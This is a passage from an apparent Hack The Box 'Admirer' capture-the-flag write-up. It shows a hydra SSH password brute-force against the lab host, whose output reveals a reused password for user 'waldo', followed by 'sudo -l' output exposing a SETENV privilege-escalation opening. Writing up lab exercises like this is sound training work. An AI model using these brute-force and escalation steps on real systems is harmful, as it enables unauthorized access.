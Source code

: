 Since SSH appears to be the only service available that we can use these credentials with, we'll try that first.

```bash
$ hydra -L users.txt -P passwords.txt ssh://10.10.10.187
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-26 21:06:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:8/p:4), ~2 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-26 21:06:33
```

Looks like there is a username and password combination that works on SSH. Specifically, our newly uncovered database password was reused by user `waldo` for their SSH login.

Let's grab the user flag.

![](/assets/img/posts/htb/05-2020-2/user-flag.png)

## Root Flag

On to root. First thing we'll do is check the privileges of user waldo.

```bash
$ sudo -l
[sudo] password for waldo:
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```
